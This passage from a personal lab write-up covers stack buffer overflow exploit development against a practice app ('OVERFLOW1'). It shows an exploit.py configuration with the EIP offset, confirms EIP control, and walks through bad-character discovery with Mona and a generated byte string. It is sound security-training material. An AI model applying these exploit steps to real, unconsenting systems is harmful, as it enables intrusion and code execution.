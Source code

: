We're looking for the line that says 'EIP contains normal pattern:' and then we'll pull the offset  from here.

![Tiberius1](images/tiberius1.png)

Great. We modify our exploit.py, but this time we remove the payload and replace it with 4 A's and set the offset to the value we found above:
```
prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "AAAA"
padding = ""
payload = ""
postfix = ""
```

Restarting the app and immunity, we re-run exploit.py and can see that EIP displays '41414141' - Hex code for 4 A's. We now have control over the EIP.

### Finding Bad Characters
We use Mona to generate a byte array, which is then placed in the working directory we specified at the very beginning of this exercise. Note that \x00 is just us excluding the null byte (and is required):
```
!mona bytearray -b "\x00"
```
"Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff":
```
#!/usr/bin/env python3
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
The reason we've done this, is to get the bytearray to output as a single line, rather than being broken up into several and having to worry about quotes everywhere. I feel like I could still do it without that step, but we'll follow along for now. Once generated, we shouldn't have to do this ever again. We just copy/paste the string. I'll include that full string here, so that I can just copy/paste it in the future:
```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
